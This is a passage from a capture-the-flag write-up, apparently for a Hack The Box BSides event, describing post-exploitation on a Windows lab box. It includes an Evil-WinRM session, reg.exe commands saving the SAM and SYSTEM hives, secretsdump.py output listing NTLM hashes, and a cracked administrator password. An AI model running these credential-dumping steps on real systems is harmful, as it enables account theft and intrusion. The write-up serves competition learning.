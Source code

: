 ```
*Evil-WinRM* PS C:\Users\dev-batch\Documents> cd C:\Users\dev-batch\Desktop
*Evil-WinRM* PS C:\Users\dev-batch\Desktop> dir


    Directory: C:\Users\dev-batch\Desktop


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-ar---        9/25/2019   1:58 PM             28 flag.txt                                                                                                                                                                                                


*Evil-WinRM* PS C:\Users\dev-batch\Desktop> more flag.txt
flag{cR3dent1@ls_so_expo5ed}
```
And sure enough, we have another flag. We were unable to root the box within the 4 hour given time frame, however, we did find a number of interesting files. I'll go over how we retrieved some of them:

We could obtain several key hives directly from the registry using
```
reg.exe save hklm\sam E:\sam.hive

reg.exe save hklm\system E:\system.hive
```
Lastly, we found one more aditional sensitive file (ntds.dit) within the C:\System32 folder, we could then pull the files down off the server using a wide variety of methods (personally, we used the open E$ Samba share due to simplicity), then we could dump the password hashes of the user accounts on the system using Secretsdump.py within the Impacket suite. 
```
#./secretsdump.py -sam ./sam -system ./system -ntds ./ntds.dit local
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0xbf52866106a6efc249f28895d39f99d3
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:da044beedf173cf4ada93d034aa820fb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] Reading and decrypting hashes from /root/Downloads/ntds.dit 
[*] Cleaning up... 
```
Having the admistrator hash, we could do a few things: attempt to preform a Pass-The-Hash attack and authenthicate as the administrator and lastly try to crack the hash itself. Unfortunately, none of these were the intended method, and it was something that we were way way way far off on (sadly), but hey, we still came in first and a win is a win! 
Note:
It was possible to crack the hash, although brute forcing would have been necessary. At the end of the official writeup, the credentials were revealed to be:

``
administrator:qfxvjk9BITxwg584x
``

You can view the full official writeup here: https://ctf.hackthebox.eu/bsides2.pdf
